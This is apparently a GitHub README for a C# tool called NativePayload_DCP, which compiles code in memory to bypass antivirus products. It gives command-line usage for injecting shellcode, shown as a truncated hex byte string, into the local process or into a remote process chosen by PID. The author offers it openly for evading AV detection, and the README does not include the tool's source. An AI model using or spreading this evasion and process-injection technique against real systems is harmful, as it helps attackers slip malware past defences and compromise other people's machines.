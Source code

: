 # NativePayload_DCP

### Compiling Csharp in-memory and Execute to bypass AVs

#### Note: Code created by me in [Jun 2017] and Published in [Mar 2023] ;D but still can help you to bypass some AVs ;)

#### Note: ALL AVs in 2017 Bypassed by this simple code but for now i am not sure for this. 

<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_DCP"/></a></p>

usage:
      
    Syntax: injection into local process
    
    NativePayload_DCP.exe DYN-PAY-ARG "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    
    Syntax: injection into remote process
    
    NativePayload_DCP.exe DYN-TEXT-FILE CHUNK NativePayload_Tinjection.cs TPID "fc,48,83,e4,f0,e8,cc,00,00,00,41,51,..."
    NativePayload_DCP.exe DYN-TEXT-FILE Src NativePayload_Tinjection.cs TPID



   ![](https://github.com/DamonMohammadbagher/NativePayload_DCP/blob/main/NativePayload_DCP.png)
